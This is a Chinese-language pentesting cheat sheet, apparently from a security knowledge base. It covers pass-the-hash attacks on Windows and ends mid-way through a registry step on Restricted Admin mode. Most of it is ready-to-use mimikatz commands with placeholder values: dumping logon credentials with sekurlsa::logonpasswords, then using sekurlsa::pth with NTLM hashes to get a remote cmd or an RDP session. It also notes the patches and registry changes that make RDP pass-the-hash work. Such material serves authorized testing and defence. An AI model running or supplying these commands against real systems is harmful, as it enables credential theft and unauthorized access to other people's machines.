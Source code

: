 在对 Windows 系统进行渗透测试过程中，如果获取目标机器的系统权限，则可以通过 hashdump 的方式获取目标机器历史登录信息，包括用户名和用户明文密码或者用户 hash，如果无法直接获取目标用户明文密码，则可以通过 pth 的方式远程登录目标机器

**相关文章**
- [mimikatz-pth with rdp](http://rtshield.top/2019/08/31/%E5%AE%89%E5%85%A8%E5%B7%A5%E5%85%B7-mimikatz-pth_with_rdp/)
- https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth
- [Passing the hash with native RDP client (mstsc.exe)](https://edermi.github.io/post/2018/native_rdp_pass_the_hash/)
- [攻击3389之PTH](https://mp.weixin.qq.com/s/mVSc5geSYwncpOda1OT-0g)

**mimikatz 进行 PtH**

1. (工作组)通过 pth 进行远程登录(cmd)
    ```bash
    mimikatz.exe privilege::debug

    mimikatz.exe privilege::debug "sekurlsa::pth /user:用户名  /domain:目标机器IP  /ntlm:密码哈希"

    mimikatz.exe privilege::debug "sekurlsa::pth /user:win10 /domain:192.168.1.1 /ntlm:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
    ```

2. (域)通过 pth 进行远程登录(cmd)
    ```bash
    mimikatz.exe privilege::debug
    mimikatz.exe sekurlsa::logonpasswords

    mimikatz.exe privilege::debug "sekurlsa::pth /domain:目标机器的域 /user:目标机器的用户名 /ntlm:用户名对应的hash"

    mimikatz.exe privilege::debug "sekurlsa::pth /user:win10 /domain:test.com /ntlm:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
    ```

3. 通过 pth 进行远程登录(mstsc)
    ```bash
    # 管理员权限下执行以下命令:
    mimikatz.exe privilege::debug "sekurlsa::pth /domain:目标机器的域 /user:目标机器的用户名 /ntlm:用户名对应的hash /run:mstsc.exe /restrictedadmin"
    ```

    RDP 限制管理模式是建立在 Kerberos 基础上的。看一下网络流量，可以看到 RDP 客户端代表模拟的用户请求 ticket，这没有问题，因为我们只需要通过哈希来验证 Kerberos。

**受限管理模式**

通过 pth 的方式远程登录有一个限制：受限管理模式(Restricted Admin mode)
- Windows8.1 和 Windows Server 2012(R2)默认支持该功能
- Win7 和 Windows Server 2008(R2)默认不支持该功能，需要安装补丁 KB2871997 和 KB2973351

1. 安装补丁 KB3126593,其原理与下述的修改注册表的原理是一致的
    - https://support.microsoft.com/en-us/help/2973351/microsoft-security-advisory-registry-update-to-improve-credentials-pro

2. 修改注册表
    ```bash
    HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa
